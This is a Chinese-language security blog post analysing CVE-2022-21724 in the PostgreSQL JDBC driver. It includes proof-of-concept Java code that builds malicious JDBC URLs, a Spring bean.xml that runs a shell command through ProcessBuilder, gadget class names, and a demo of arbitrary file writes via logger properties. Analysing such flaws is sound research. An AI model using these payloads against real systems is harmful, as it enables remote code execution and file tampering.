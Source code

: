 # Java JDBC Attack-PostgresQL

  
  
&lt;!--more--&gt;  
## 0x01 PostgreSQL漏洞  
PostgreSQL的property也存在安全问题CVE-2022-21724  
在 PostgreSQL 数据库的 JDBC 驱动程序中存在一个安全漏洞。当攻击者控制 JDBC URL 或者属性时，使用 PostgreSQL 数据库的系统将受到攻击。  
PgJDBC根据`authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory` 、`sslfactory`、`sslpasswordcallback`连接属性提供类型实例化插件实例。但是。驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致 RCE  
影响范围：  
　　9.4.1208 &lt;=PgJDBC &lt;42.2.25  
　　42.3.0 &lt;=PgJDBC &lt; 42.3.2  
这里主要记录两个点  
- socketFactory / socketFactoryArg 等property调用有参构造触发的RCE  
- loggerLevel / loggerFile 日志功能写文件  
## 0x02 漏洞分析&amp;POC  
pom.xml  
```xml  
&lt;!-- https://mvnrepository.com/artifact/org.postgresql/postgresql --&gt;  
&lt;dependency&gt;  
    &lt;groupId&gt;org.postgresql&lt;/groupId&gt;  
    &lt;artifactId&gt;postgresql&lt;/artifactId&gt;  
    &lt;version&gt;42.3.1&lt;/version&gt;  
&lt;/dependency&gt;  
&lt;!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support --&gt;  
&lt;dependency&gt;  
    &lt;groupId&gt;org.springframework&lt;/groupId&gt;  
    &lt;artifactId&gt;spring-context-support&lt;/artifactId&gt;  
    &lt;version&gt;5.3.23&lt;/version&gt;  
&lt;/dependency&gt;  
```  
demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
import java.sql.SQLException;    
    
public class JDBC_Postgresql {    
    public static void main(String[] args) throws SQLException {    
        String socketFactoryClass = &#34;org.springframework.context.support.ClassPathXmlApplicationContext&#34;;    
        String socketFactoryArg = &#34;http://127.0.0.1:8080/bean.xml&#34;;    
        String jdbcUrl = &#34;jdbc:postgresql://127.0.0.1:5432/test/?socketFactory=&#34;&#43;socketFactoryClass&#43; &#34;&amp;socketFactoryArg=&#34;&#43;socketFactoryArg;    
        Connection connection = DriverManager.getConnection(jdbcUrl);    
    }    
}  
```  
bean.xml  
```xml  
&lt;beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;  
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;  
       xmlns:p=&#34;http://www.springframework.org/schema/p&#34;  
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans  
        http://www.springframework.org/schema/beans/spring-beans.xsd&#34;&gt;  
&lt;!--    普通方式创建类--&gt;  
   &lt;bean id=&#34;exec&#34; class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;&gt;  
        &lt;constructor-arg&gt;  
          &lt;list&gt;  
            &lt;value&gt;bash&lt;/value&gt;  
            &lt;value&gt;-c&lt;/value&gt;  
            &lt;value&gt;open -a Calculator&lt;/value&gt;  
          &lt;/list&gt;  
        &lt;/constructor-arg&gt;  
    &lt;/bean&gt;  
&lt;/beans&gt;  
```  
### **任意代码执行 socketFactory/socketFactoryArg**  
大概流程  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162316543.png)
通过大概流程就可以看出，直接看 sink 点，  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162325438.png)
这里的`ctor`类和`args`参数均为可控。满足构造方法中有且只有一个 String 参数的类就可以满足条件。  
- org.apache.commons.jxpath.functions.ConstructorFunction  
- org.apache.commons.jxpath.functions.MethodFunction  
- java.io.FileOutputStream  
通过`CVE-2017-17485`实现 Spring Spel 执行任意命令或者利用 FileOutputStream 将任意文件置空  
### **任意代码执行sslfactory/sslfactoryarg**  
大概流程  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162327024.png)
和上面的漏洞形成方式一致，sink 点也类似  
### **任意文件写入loggerLevel/LoggerFile**  
Demo  
```java  
import java.sql.Connection;    
import java.sql.DriverManager;    
import java.sql.SQLException;    
    
public class JDBC_Postgresql_File {    
    public static void main(String[] args) throws SQLException {    
        String loggerLevel = &#34;debug&#34;;    
        String loggerFile = &#34;test.txt&#34;;    
        String shellContent=&#34;test&#34;;    
        String jdbcUrl = &#34;jdbc:postgresql://127.0.0.1:5432/test?loggerLevel=&#34;&#43;loggerLevel&#43;&#34;&amp;loggerFile=&#34;&#43;loggerFile&#43; &#34;&amp;&#34;&#43;shellContent;    
        Connection connection = DriverManager.getConnection(jdbcUrl);    
    }    
}  
```  
断点调试一下，依然是跟进到`org.postgresql.Driver#connect()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162333063.png)
进入到`setupLoggerFromProperties()`方法中  
通过`LOGGER_FILE`指定日志文件保存位置，没有进行校验，导致可以跨目录保存文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162337783.png)
利用了`setupLoggerFromProperties()`设定了相关的参数，再利用`LOGGER.log`保存了文件  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202501162339486.png)

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-jdbc-attack-postgresql/  

